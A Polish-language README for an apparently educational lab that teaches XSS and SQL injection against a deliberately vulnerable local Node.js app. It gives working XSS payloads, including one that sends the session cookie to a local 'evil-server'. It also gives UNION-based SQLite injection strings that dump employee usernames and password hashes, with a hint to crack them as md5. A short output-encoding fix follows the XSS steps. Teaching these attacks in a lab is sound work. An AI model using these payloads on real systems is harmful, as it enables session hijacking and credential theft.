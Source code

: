 # BAIiM_project
Command Injection, Code Injection i Cross-Site Scripting

## Wymagania
* Node.js
* Git (git clone)

## Wstęp
* Sklonuj repozytorium (git clone)
* Zainstaluj pakiety Nodel.js zdefiniowane w `package.json` z pomocą poniższej komendy:
```
npm install
```

## Zadanie 1

* Uruchom lokalny serwer WWW za pomocą Node.js:
```
node server.js
```

To spowoduje pojawienie się komunikatu: `Serwer nasłuchuje na porcie 3000`. 
W wyszukiwarce wpisz link `http://localhost:3000/`.
* Możesz wpisać dowolną rzecz w pole tekstowe, a następnie kliknąć `Szukaj`. Sprawdź jak zachowuje się to zapytanie i czy wygląda na podatne na atak.
* Przy użyciu klawisza F12 otwórz "Developer Tools" i wklej poniższy kod do konsoli:
```
encodeURIComponent('<img src="does-not-exist" onerror="alert(\'BAIiM\')">');
```
* Następnie skopiuj wynik i wklej go do paska URL, tak aby wyglądał w następujący sposób: `http://localhost:3000/?val=<wynik>`

* W "Developer Tools" otwórz zakładkę "Application". A następnie "Storage" -> "Cookies", kliknij "localhost:3000", aby wyświetlić pliki cookies zapisane dla tej strony.

* Znajdujemy tam ciasteczko o nazwie "connect.sid". Spróbuj zyskać do niego dostęp poprzez wklejenie poniższego kodu do pola tekstowego - musisz najpierw powtórzyć krok z `encodeURIComponent` na poniższym kodzie (jako wynik powinniśmy zobaczyć zawartość w wyskakującym okienku):
 ```
<img src="does-not-exist" onerror="alert(document.cookie)">
```
* teraz uruchom kolejny serwer (w osobnym terminalu):
```
node evil-server.js
```

* teraz spróbujesz wykraść plik cookie. Wklej poniższy kod do pola tekstowego (tak jak poprzednio użyj `encodeURIComponent`)

```
<img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">
```
* zobacz wynik w terminalu, w którym uruchomiony został `evil-server.js`
* zastanów się dlaczego to, co wykonałeś powyżej może być groźne

### Zabezpieczenie
* W pliku `public/index.html` znajdź funkcję "showQueryAndResults". Pobiera ona wartość zapytania `val` i wpisuje do `<div id="results"></div>`
* Możemy zmienić ją tak, aby `val` trakowane było jako tekst. W tym celu dodaj poniższy kod na końcu funkcji "showQueryAndResults".
```
var queryTextEl = document.querySelector('#results pre');
	queryTextEl.textContent = q;
```
* zastanów się, jaki ma to wpływ

## Zadanie 2
Poniżej znajduje się instrukcja dotycząca używania poleceń SQL dla ataków typu injection w bazie danych SQLite (screen z uzywanej bazy danych znajduje się w plikach):
* Sprawdź, czy atak injection może zadziałać, wpisując następujące polecenie (`sqlite_master` to domyślna tabela w bazie danych SQLite, która przechowuje informacje o każdej tabeli w bazie danych):
```
juice' UNION SELECT 1,2,3 from sqlite_master WHERE type="table"; --
```
* Uzyskaj nazwy tabel z tabeli głównej (polecenie SQL zwraca informacje o tabeli):
```
juice' UNION SELECT name,sql,3 from sqlite_master WHERE type="table"; --
```
`name` i `sql` to kolumny w tabeli `sqlite_master`. `name` zwraca nazwę tabeli, a `sql` zwraca informacje SQL dotyczące tabeli (np. kolumny).
* Uzyskaj informacje z dwóch kolumn i utwórz trzecią kolumnę:
```
juice' UNION SELECT username,password,3 from employees;--
 ```
* Zwróć uwagę, że w kolumnie `password` pojawia się ciąg znaków. Zastanów się co możesz z nim zrobić. (podpowiedź: md5).


## Bibliografia
* "Bezpieczeństwo aplikacji webowych" - Michał Bentkowski, Gynvael Coldwind, Artur Czyż, Rafał Janicki, Jarosław Kamiński, Adrian Michalczyk, Mateusz Niezabitowski, Marcin Piosek, Michał Sajdak, Grzegorz Trawiński, Bohdan Widła
* https://crashtest-security.com/different-injection-attack-types/​
* https://learn.snyk.io/lessons/​
* https://www.imperva.com/learn/application-security/command-injection/​
* https://owasp.org/www-community/attacks/Command_Injection​
* https://crashtest-security.com/command-injection/​
* https://crashtest-security.com/code-injection/​
* https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html​
* https://www.acunetix.com/websitesecurity/cross-site-scripting/ 
* https://www.acunetix.com/blog/web-security-zone/test-xss-skills-vulnerable-sites/
* https://github.com/inforkgodara/xss-vulnerability 
* https://github.com/neophyt3/sql-injection-exercises

  ### Dodatkowe
  #### Gry XSS i zadania:
  * http://sudo.co.il/xss/
  * https://xss-game.appspot.com/ 
  * https://alf.nu/alert1?world=alert&level=alert0 
  * http://prompt.ml/0 
  * https://xss-quiz.int21h.jp/
  * https://domgo.at/cxss/example

  #### Animacja o XSS wraz z wyjaśnieniem
  * https://www.hacksplaining.com/exercises/xss-stored (animacja)
  * https://www.hacksplaining.com/prevention/xss-stored (wyjaśnienie)
